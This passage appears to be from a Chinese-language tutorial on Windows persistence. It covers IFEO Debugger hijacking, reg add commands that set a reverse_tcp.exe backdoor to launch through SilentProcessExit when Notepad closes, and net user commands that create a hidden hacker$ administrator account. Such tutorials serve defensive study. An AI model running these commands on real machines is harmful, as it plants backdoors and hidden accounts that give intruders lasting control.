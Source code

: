 ##### Debugger

+ 利用

当我们双击运行程序时，系统会查询该IFEO注册表，如果发现存在和该程序名称完全相同的子键，就查询对应子健中包含的“debugger”键值名，如果该参数不为空，系统则会把 Debugger 参数里指定的程序文件名作为用户试图启动的程序执行请求来处理。这样成功执行的是遭到“劫持”的虚假程序。

+ 可视化手动修改

手动修改注册表，添加debugger字段

![debugger_by_hand](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/Psexec-stream/debugger_by_hand.png)

启动该程序时就会启动cmd

##### GlobalFlag

在Windows中，关于程序的静默退出监视（Silent Exit Monitoring）是指对正在运行的程序进行实时监控，并在程序退出时自动采取相应的操作，而无需人工干预或弹出任何用户界面。

IFEO还可以在指定程序静默退出时启动任意监控程序，可以通过设置注册表来达到该效果

```shell
#启动对记事本的静默退出监视，需要在CurrentVersion注册一个GlobalFlag
 reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
#启动windows错误的进程报告WerFault.exe,它将成为reverse_tcp.exe的父进程
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
#将监视器进程设置为reverse_tcp.exe
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\Windows\System32\reverse_tcp.exe" 
```

当用户关闭已开启的记事本时，会启动WerFault进程，它的子进程为我们设定的的后门程序。修改为cmd.exe可以更直观的看到

![werfaylt-cmd](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/werfaylt-cmd.png)

## 常见系统后门技术

### 创建影子账户

影子账户其实就是隐藏起来的账户，只能在注册表中看到该账户的信息，对于该账户的创建，我们需要拥有管理员权限

+ 执行下列命令创建hacker$账户

  ```
  net user hacker$ hacker@123 /add
  ```

  $代表创建的账号是隐藏账户，无法从命令行直接查询，此时创建的账户为标准用户，需要修改注册表来使其获得管理员权限

  将hacker$用户添加到管理员组中

  ```
  net localgroup administrators hacker$ /add
  ```

+ 用注册表中administrator对应的000001F4中F的值替换hacker$用户对应的值
